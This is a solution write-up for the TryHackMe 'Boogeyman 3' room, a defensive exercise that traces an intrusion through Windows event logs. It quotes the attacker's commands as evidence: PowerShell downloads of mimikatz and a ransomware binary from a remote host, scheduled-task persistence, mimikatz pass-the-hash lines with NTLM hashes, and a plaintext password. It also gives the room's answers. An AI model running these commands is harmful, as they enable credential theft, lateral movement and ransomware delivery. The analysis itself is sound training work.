



# [TryHackMe | Boogeyman 3](https://tryhackme.com/room/boogeyman3) Challenge Room Solution Writeup

## [Task 2 | The Chaos Inside](https://tryhackme.com/room/boogeyman3?taskNo=2)

It was presumed by the security team that the incident occurred between August 29 and August 30, 2023.

### What is the PID of the process that executed the initial stage 1 payload?

Query `winlog.event_id:1 and *ProjectFinancialSummary_Q3.pdf*` to find `process.pid` **6392**.

### The stage 1 payload attempted to implant a file to another location. What is the full command-line value of this execution?

Query `process.parent.pid:6392` then sort by time ascending to find `process.command_line` **"C:\Windows\System32\xcopy.exe" /s /i /e /h D:\review.dat C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat**.

### The implanted file was eventually used and executed by the stage 1 payload. What is the full command-line value of this execution?

From the previous query the next event is **"C:\Windows\System32\rundll32.exe" D:\review.dat,DllRegisterServer**.

### The stage 1 payload established a persistence mechanism. What is the name of the scheduled task created by the malicious script?

The next event is `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" $A = New-ScheduledTaskAction -Execute 'rundll32.exe' -Argument 'C:\Users\EVAN~1.HUT\AppData\Local\Temp\review.dat,DllRegisterServer'; $T = New-ScheduledTaskTrigger -Daily -At 06:00; $S = New-ScheduledTaskSettingsSet; $P = New-ScheduledTaskPrincipal $env:username; $D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S; Register-ScheduledTask Review -InputObject $D -Force;` from which the name is **Review**.

### The execution of the implanted file inside the machine has initiated a potential C2 connection. What is the IP and port used by this connection? (format: IP:port)

Notice the C2 scheduling occurred at `Aug 29, 2023 @ 23:51:16.809`, so query for network events with `winlog.event_id:3` and find the first event at `Aug 29, 2023 @ 23:51:17.910`, with `destination.ip` and `destination.port` **165.232.170.151:80**.

### The attacker has discovered that the current access is a local administrator. What is the name of the process used by the attacker to execute a UAC bypass?

Query `process.parent.command_line:*review.dat*` then notice the use of **fodhelper.exe**. Researching more about this online reveals it to be a tool used for UAC bypassing. 

### Having a high privilege machine access, the attacker attempted to dump the credentials inside the machine. What is the GitHub link used by the attacker to download a tool for credential dumping?

Query `process.command_line:*github.com*` to find `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "iwr `**https[:]//github[.]com/gentilkiwi/mimikatz/releases/download/2[.]2[.]0-20220919/mimikatz_trunk[.]zip**` -outfile mimi.zip"`.

### After successfully dumping the credentials inside the machine, the attacker used the credentials to gain access to another machine. What is the username and hash of the new credential pair? (format: username:hash)

Query `host.name:WKSTN-0051.quicklogistics.org and user.name:evan.hutchinson and process.name:mimikatz.exe` to find `"C:\Windows\Temp\m\x64\mimi\x64\mimikatz.exe" "sekurlsa::pth /user:itadmin /domain:QUICKLOGISTICS /ntlm:F84769D250EB95EB2D7D8B4A1C5613F2 /run:powershell.exe" exit`, which gives **itadmin:F84769D250EB95EB2D7D8B4A1C5613F2**.

### Using the new credentials, the attacker attempted to enumerate accessible file shares. What is the name of the file accessed by the attacker from a remote share?

Query `process.parent.pid:6160` (same parent PID as the previous commands), then read through to find `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "cat FileSystem::\\WKSTN-1327.quicklogistics.org\ITFiles\`**IT_Automation.ps1**`"`.

### After getting the contents of the remote file, the attacker used the new credentials to move laterally. What is the new set of credentials discovered by the attacker? (format: username:password)

Within the same query, the next event is `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "$credential = (New-Object PSCredential -ArgumentList (" "QUICKLOGISTICS\allan.smith, (ConvertTo-SecureString Tr!ckyP@ssw0rd987 -AsPlainText -Force))) ; Invoke-Command -Credential $credential -ComputerName WKSTN-1327 -ScriptBlock {whoami}"`, so the new set of credentials is **QUICKLOGISTICS\allan.smith:Tr!ckyP@ssw0rd987**.

### What is the hostname of the attacker's lab machine for its lateral movement attempt?

From the previous question, **WKSTN-1327**.

### Using the malicious command executed by the attacker from the first machine to move laterally, what is the parent process name of the malicious command executed on the second compromised machine?

Query `host.hostname:WKSTN-1327 and user.name:allan.smith and process.command_line:*` to find **wsmprovhost.exe**.

### The attacker then dumped the hashes in this second machine. What is the username and hash of the newly dumped credentials? (format: username:hash)

Query `host.name:WKSTN-1327.quicklogistics.org and user.name:allan.smith and process.name:mimikatz.exe` to find `"C:\Users\allan.smith\Documents\mimi\x64\mimikatz.exe" "sekurlsa::pth /user:administrator /domain:QUICKLOGISTICS /ntlm:00f80f2538dcb54e7adc715c0e7091ec /run:powershell.exe" exit`, which gives **administrator:00f80f2538dcb54e7adc715c0e7091ec**.

### After gaining access to the domain controller, the attacker attempted to dump the hashes via a DCSync attack. Aside from the administrator account, what account did the attacker dump?

Query `process.command_line:*dcsync*` to see `administrator` and **backupda** have been dumped. 

### After dumping the hashes, the attacker attempted to download another remote file to execute ransomware. What is the link used by the attacker to download the ransomware binary?

Query `process.command_line:*iwr*` then read through to find `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c "iwr `**http[:]//ff[.]sillytechninja[.]io/ransomboogey[.]exe**` -outfile ransomboogey.exe"`.